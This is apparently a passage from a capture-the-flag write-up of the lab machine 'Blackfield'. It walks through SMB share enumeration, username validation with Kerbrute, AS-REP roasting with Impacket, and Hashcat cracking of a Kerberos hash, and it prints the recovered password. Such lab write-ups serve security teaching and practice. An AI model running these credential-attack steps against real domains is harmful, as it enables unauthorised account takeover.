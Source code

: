 ```
SYSVOL         NO ACCESS       Logon server share
```

There are read permissions on the share _profiles$_:
```
smbclient -t cifs '//10.10.10.192/profiles$'

smb: \> dir
```

It has a lot of user profiles, so it is best to mount it locally to make searching easier:
```
mount -t cifs '//10.10.10.192/profiles$' /mnt/blackfield/
```

As the folders are named after potential usernames, it may be useful to create a list out of them:
```
ls /mnt/blackfield/ > blackfield_users.list
```

Searching for files in the directories:
```
find . -type f
```

There are no files in them, but we have a list of usernames that can be enumerated.

## Checking Kerberos (Port 88)

With the tool [Kerbrute](https://github.com/ropnop/kerbrute) it is possible to validate usernames:
```
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d blackfield.local blackfield_users.list
```
```
[+] VALID USERNAME:  audit2020@blackfield.local
[+] VALID USERNAME:  support@blackfield.local
[+] VALID USERNAME:  svc_backup@blackfield.local
```

Using the tool **Impacket-GetNPUsers** to check if these users have **Kerberos Pre-Authentication** enabled:
```
impacket-GetNPUsers -dc-ip 10.10.10.192 -usersfile valid_users.list blackfield/
```
```
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD:b0823507fb4343ea97081(...)
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The user _support_ has it enabled and we gained a Kerberos ticket, that needs to be cracked with **Hashcat**:
```
hashcat -m 18200 support_krb-ticket.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for the user _support_ is:
```
#00^BlackKnight
```
